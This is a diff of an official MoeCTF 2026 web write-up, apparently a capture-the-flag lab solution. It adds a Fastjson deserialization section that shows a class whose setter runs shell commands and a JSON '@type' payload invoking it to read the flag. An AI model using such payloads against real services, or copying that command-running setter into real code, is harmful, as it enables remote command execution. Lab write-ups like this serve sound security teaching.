

Before and after one commit to XDSEC/MoeCTF_2026, a Markdown page: official_writeups/web/MoeCTF 2026 Web方向 WriteUp.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/official_writeups/web/MoeCTF 2026 Web方向 WriteUp.md
+++ b/official_writeups/web/MoeCTF 2026 Web方向 WriteUp.md
@@ -370,7 +370,46 @@ print(msg)
 
 ### 巧乐兹
 
-考察Fastjson反序列化，关键点在于可以通过修改序列化字符串中`@type`的类型来人为操控反序列化后得到对象的属性，同时配置中给了白名单`com.example.demo.`，其子类`MetricDTO`存在危险方法。我们只需要构造恶意序列化字符串即可读取flag
+考察Fastjson反序列化，关键点在于可以通过修改序列化字符串中`@type`的类型来人为操控反序列化后得到对象的属性，同时配置中给了白名单`com.example.demo.`，其子类`MetricDTO`存在危险方法，具体如下：
+
+```java
+public class MetricDTO {
+    private String key;
+    private String value;
+
+    public void setValue(String value) {
+        this.value = value;
+        Logger.info("set metric: '%s'='%s'", key, value);
+    }
+
+    public void setValueByCommand(String cmd) {
+        ProcessBuilder pb = new ProcessBuilder();
+        pb.command("/bin/sh", "-c", cmd);
+
+        Process process = pb.start();
+
+        InputStream in = process.getInputStream();
+        this.setValue(
+            new String(in.readAllBytes(), StandardCharsets.UTF_8)
+        );
+    }
+
+    public void setValueByProperty(String key) {
+        this.setValue(System.getProperty(key, ""));
+    }
+}
+```
+
+可以看到`setValueByCommand`函数中有明显的可利用点，根据JAVA的命名规则，我们只需传入一个包含参数名为`ValueByCommand`的包即可触发这一函数，进而调用`/bin/sh`执行shell命令，给出参考构造如下：
+
+```
+{
+  "@type": "com.example.demo.dto.MetricDTO",
+  "valueByCommand": "cat /flag 2>&1"
+}
+```
+
+然后请求`/api/v1/log`即可拿到flag
 
 ### 千度网盘
 
````
